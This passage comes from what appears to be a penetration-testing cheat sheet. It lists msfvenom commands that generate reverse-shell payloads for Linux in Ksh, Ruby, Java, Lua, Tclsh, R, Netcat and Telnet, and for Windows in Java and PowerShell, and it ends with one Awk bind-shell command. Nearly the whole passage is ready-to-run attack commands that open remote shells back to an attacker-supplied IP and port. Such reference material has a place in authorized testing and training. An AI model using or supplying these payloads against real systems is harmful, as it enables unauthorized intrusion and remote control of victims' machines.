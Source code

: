 - **Ksh**

`$ msfvenom -p cmd/unix/reverse_ksh lhost=<IP> lport=<PORT>`

- **Ruby**

`$ msfvenom -p cmd/unix/reverse_ruby lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_ruby_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **Java**

`$ msfvenom -p cmd/unix/reverse_jjs lhost=<IP> lport=<PORT>`

- **Lua**

`$ msfvenom -p cmd/unix/reverse_lua lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_ncat_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **Tclsh**

`$ msfvenom -p cmd/unix/reverse_tclsh lhost=<IP> lport=<PORT>`

- **R**

`$ msfvenom -p cmd/unix/reverse_r lhost=<IP> lport=<PORT>`

- **Netcat**

1. **OpenBSD Method**

`$ msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<PORT>`

2. **Traditional GNU Method**

`$ msfvenom -p cmd/unix/reverse_netcat_gaping lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/pingback_reverse lhost=<IP> lport=<PORT>`

- **Telnet**

`$ msfvenom -p cmd/unix/reverse_ssl_double_telnet handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

##### 2.4.1.2 - Windows

- **Java**

`$ msfvenom -p cmd/windows/jjs_reverse_tcp lhost=<IP> lport=<PORT>`

- **Powershell**

`$ msfvenom -p cmd/windows/reverse_powershell lhost=<IP> lport=<PORT> -f raw -o shell.bat`

#### 2.4.2 - Bind Shells

##### 2.4.2.1 - Linux

- **Awk**

`$ msfvenom -p cmd/unix/bind_awk lport=<PORT>`
